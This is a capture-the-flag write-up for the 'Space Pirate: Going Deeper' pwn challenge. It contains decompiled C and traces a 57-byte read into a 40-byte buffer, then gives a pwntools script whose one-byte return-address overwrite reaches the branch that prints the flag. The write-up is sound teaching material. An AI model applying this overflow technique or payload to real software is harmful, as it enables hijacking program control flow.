





Space Pirate: Going Deeper
The binary from this pwn challenge comes with two shared objects, one referring
to ld and the other is some version of libc. For the binary to make use of these
files, we launch it like this:
LD_PRELOAD="glibc/ld-linux-x86-64.so.2 glibc/libc.so.6" ./sp_going_deeper
Then we get a prompt with some options, one of them being Login, which seems to
require a specific string.

Opening the binary in IDA Pro, we get a glimpse of how simple this program is
and how to get the flag. We have the login string in plain text, but it's also
possible to see that, if we want the flag to be printed, the values of a, b and
c, in the screenshot above, are to be changed. So it doesn't matter at all
having just the login name. The goal is to find a way to manipulate those three
values, isn't it? Most likely not, as you will see.
int __fastcall admin_panel(__int64 a1, __int64 a2, __int64 a3) { char buf[40]; // [rsp+20h] [rbp-30h] BYREF __int64 num; // [rsp+48h] [rbp-8h] num = 0LL; printf( "[*] Safety mechanisms are enabled!\n" "[*] Values are set to: a = [%x], b = [%ld], c = [%ld].\n" "[*] If you want to continue, disable the mechanism or login as admin.\n", a1, a2, a3); while ( num != 1 && num != 2 && num != 3 ) { printf(a1DisableMechan); num = read_num(); } if ( num == 1 ) { printf("\n[*] Input: "); } else { if ( num != 2 ) { puts("\n[!] Exiting..\n"); exit(6969); } printf("\n[*] Username: "); } read(0, buf, 57uLL); if ( a1 == '\xDE\xAD\xBE\xEF' && a2 == '\x137\xC0\xDE' && a3 == '\x137\xBE\xEF' && strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft", buf, 52uLL) ) { printf("\n%s[+] Welcome admin! The secret message is: ", "\x1B[1;32m"); system("cat flag*"); } else { printf("\n%s[-] Authentication failed!\n", "\x1B[1;31m"); } return puts("\n[!] For security reasons, you are logged out..\n"); }
One thing that is fast to verify is that the buf, used for the user input, is
only 40 bytes long, while the read function accepts 57 bytes and the strncmp
function is trying to compare 52 bytes. So, clearly, the read function can
trigger a buffer overflow.
I tried, at first, running the binary in GDB and inserted 60 characters (A). The
binary crashed at address 0x400b41 and three A's were printed to the output.

This did lead me to believe that the 57th byte would fill the last part of the
address 0x400bXX. As a test, I changed the input to be 56 A's and 1 C. And there
we go! The address was now 0x400b43, where 0x43 equals C.

The address we can use to execute the system("cat flag*") part of the code is
0x400b12, therefore, the 57th character should be 0x12.

For this, I wrote a Python script with pwnlib to send the payload:
from pwn import * p = process("./sp_going_deeper") # select first option p.sendline(b'1') # send input p.sendline(b'A' * 56 + b'\x12') lines = p.recvall() print(lines) p.close()
Lo and behold, we got the local flag. I then tried the exploit on the remote address to complete the challenge!
